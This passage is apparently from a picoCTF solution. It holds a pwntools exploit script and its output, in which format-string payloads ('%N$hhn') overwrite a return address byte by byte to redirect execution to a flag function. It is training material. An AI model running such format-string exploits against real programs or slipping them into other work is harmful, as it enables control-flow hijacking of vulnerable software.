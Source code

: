 ```py
	assert total % 8 == 0

	# First 5 arguments are from registers instead of stack, plus 1 because 1-indexed
	# Plus one for each 8 characters we've written so far
	num = 6 + total // 8

	# Force format specifier to be 7 chars
	fmt = f'%{num}$hhn' if num >= 10 else f'%0{num}$hhn'

	payload = payload + fmt + padding

	print(b'Writing ' + str(byte).encode() + b' to address ' +
	   hex(addr).encode() + b': ' + payload.encode())
	# Put format spec plus address we want to write
	writeline(payload.encode() + p64(addr))

# Write one byte at a time using hhn
for i in range(3):
 	# Write lowest byte of address
	# Plus i, not minus i, because little-endian
	write_byte(flag_addr & 0xff, ret_addr_loc + i)
	# Shift address one byte to the right
	flag_addr >>= 8

writeline(b'exit')

# ===

f.close()
conn.interactive()
```

Example output:
```
[+] Opening connection to shape-facility.picoctf.net on port 51442: Done
Return address: 0x59f1d72f4413
Flag func address: 0x59f1d72f4269
Return address location: 0x7ffc91683618
b'Writing 105 to address 0x7ffc91683618: %105c%08$hhn++++'
b'Writing 66 to address 0x7ffc91683619: %66c%08$hhn+++++'
b'Writing 47 to address 0x7ffc9168361a: %47c%08$hhn+++++'
[*] Switching to interactive mode
You heard in the distance:                                                                                                         \xc0++++\x186h\You heard in the distance:                                                                  \xc0+++++\x196h\x91\xfcYou heard in the distance:                                               \xc0+++++\x1a6h\x91\xfcThe Valley Disappears
Congrats! Here is your flag: picoctf{<FLAG>}
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to shape-facility.picoctf.net port 51442
```
